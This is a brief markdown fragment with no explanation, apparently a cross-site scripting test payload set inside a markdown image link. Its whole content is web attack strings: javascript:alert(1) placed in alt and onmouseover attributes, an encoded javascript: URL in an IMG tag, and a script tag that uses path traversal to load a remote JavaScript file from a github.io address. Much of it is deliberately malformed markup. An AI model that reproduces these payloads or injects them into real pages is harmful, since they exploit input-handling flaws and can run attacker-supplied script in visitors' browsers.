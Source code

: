 ![
%0a
<a href="<script src=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js >" alt="\bjavascript:alert(1)" onmouseover="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
